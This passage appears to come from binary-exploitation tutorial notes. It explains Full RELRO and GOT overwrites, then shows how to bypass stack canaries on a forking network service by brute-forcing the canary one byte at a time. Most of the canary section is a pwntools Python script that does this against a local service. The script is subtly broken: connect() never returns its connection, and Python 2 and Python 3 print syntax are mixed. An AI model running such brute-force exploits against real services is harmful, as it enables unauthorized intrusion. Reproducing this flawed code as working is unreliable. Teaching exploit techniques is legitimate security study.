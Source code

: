 #### Full RELRO

Full RELRO makes the entire GOT read-only which removes the ability to perform a "GOT overwrite" attack, where the GOT address of a function is overwritten with the location of another function or a ROP gadget an attacker wants to run.

Full RELRO is not a default compiler setting as it can greatly increase program startup time since all symbols must be resolved before the program is started. In large programs with thousands of symbols that need to be linked, this could cause a noticable delay in startup time.

## Bypassing Canary & PIE

**If you are facing a binary protected by a canary and PIE (Position Independent Executable) you probably need to find a way to bypass them.**

![img](../assets/Week 3-1.png)

### **Canary**

The best way to bypass a simple canary is if the binary is a program **forking child processes every time you establish a new connection** with it (network service), because every time you connect to it **the same canary will be used**.

Then, the best way to bypass the canary is just to **brute-force it char by char**, and you can figure out if the guessed canary byte was correct checking if the program has crashed or continues its regular flow. In this example the function **brute-forces an 8 Bytes canary (x64)** and distinguish between a correct guessed byte and a bad byte just **checking** if a **response** is sent back by the server (another way in **other situation** could be using a **try/except**):

```
from pwn import *

def connect():
    r = remote("localhost", 8788)

def get_bf(base):
    canary = ""
    guess = 0x0
    base += canary

    while len(canary) < 8:
        while guess != 0xff:
            r = connect()

            r.recvuntil("Username: ")
            r.send(base + chr(guess))

            if "SOME OUTPUT" in r.clean():
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base
    
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
```